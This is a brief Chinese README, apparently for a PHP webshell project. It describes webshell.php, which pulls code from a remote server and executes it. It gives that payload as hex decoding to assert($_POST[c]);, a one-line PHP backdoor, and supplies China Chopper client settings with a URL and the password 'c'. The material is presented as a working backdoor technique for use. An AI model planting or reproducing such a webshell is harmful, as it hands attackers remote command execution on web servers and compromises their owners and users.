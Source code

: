 ## 使用说明

> 写了两个脚本webshell.php和getcode.php(本地开了个php server，运行getcode.php模拟远程服务器上的网页)
> 原理：首先用菜刀访问webshell.php，该webshell立即从远程服务器上获取要运行的代码并执行。
> 这里获取的代码是61737365727428245f504f53545b635d293b，也就是assert($_POST[c]);
> 菜刀中设置：http://192.168.1.102/DebugPHP/webshell.php 密码是c

author ：tank96a
form : http://tank96a.github.io/article/2015/04/27/php-horse/
